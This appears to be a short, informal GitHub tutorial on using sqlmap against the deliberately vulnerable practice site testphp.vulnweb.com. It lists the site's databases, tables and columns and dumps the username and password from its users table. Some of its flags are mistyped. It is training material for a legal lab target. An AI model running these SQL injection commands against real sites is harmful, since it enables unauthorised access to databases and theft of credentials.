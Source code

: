 # sqlmap tool
 first go the vulweb website

and choose sql and copy the linked and paste in chrome

site:http://testphp.vulnweb.com/ php?id=  enter
 
 after we can get the linke of vulweb 

like this http://testphp.vulnweb.com/artists.php?artist=1

this is the link we need to attack 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
 dbs is the database 
 now check for tables

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -- tables

acuart is databse we find it before database

 this is the tables 
artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users  

 now this we are goint to see the tales in  column name

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users --columns 
Column  | Type         |

| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100)

T is the table what we need to search we need to put

we are going to find the user name from this column and table 

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C uname --dump

now we can find username test

now we goint to find the password

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C pass --dumps

password is test

 with this command we can find all 


